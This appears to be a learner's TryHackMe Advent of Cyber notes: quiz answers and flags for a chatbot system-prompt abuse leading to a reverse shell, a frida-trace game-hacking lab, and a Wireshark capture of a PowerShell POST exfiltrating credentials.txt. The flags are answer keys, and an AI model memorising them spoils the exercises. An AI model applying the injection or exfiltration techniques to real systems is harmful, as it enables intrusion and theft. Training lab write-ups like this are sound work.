 
```
What is the technical term for a set of rules and instructions given to a chatbot?

system prompt

What query should we use if we wanted to get the "status" of the health service from the in-house API?

Use the health service with the query: status

After achieving a reverse shell, look around for a flag.txt. What is the value?

THM{WareW1se_Br3ach3d}

```


## day 19: game hacking 


```
cd /home/ubuntu/Desktop/TryUnlockMe && ./TryUnlockMe


frida-trace ./TryUnlockMe -i 'libaocgame.so!*


```


```
What is the OTP flag?

THM{one_tough_password}

What is the billionaire item flag?

THM{credit_card_undeclined}

What is the biometric flag?

THM{dont_smash_your_keyboard}

```


## day 20: traffic analysis

https://youtu.be/4S17sVDNCtM

wireshark pcap files 
```
ip.src == 10.10.229.217

click on POST/inital HTTP/1.1    (frame 440) > Follow > HTTP Stream

frame 476 POST/exfilitrate 

POST /exfiltrate HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1490
Content-Type: multipart/form-data; boundary=f5964f77-daf1-4853-aacb-df4754eaacaf
Host: 10.10.123.224:8080
Content-Length: 300
Connection: Keep-Alive

--f5964f77-daf1-4853-aacb-df4754eaacaf
Content-Disposition: form-data; name="file"; filename="credentials.txt"
```